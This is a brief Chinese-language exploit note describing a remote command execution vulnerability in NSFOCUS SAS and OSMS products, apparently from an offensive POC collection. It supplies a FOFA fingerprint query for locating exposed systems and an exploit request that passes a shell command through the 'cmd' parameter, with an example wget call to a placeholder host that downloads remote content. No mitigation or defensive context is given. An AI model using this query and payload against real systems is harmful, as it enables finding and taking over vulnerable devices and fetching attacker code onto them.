 # 绿盟 SAS&OSMS Exec 远程命令执行漏洞

## 网络测绘

fofa: body="'/needUsbkey.php?username='"

## POC / EXP

```
/webconf/Exec/index?cmd=wget%20xxx.xxx.xxx
```
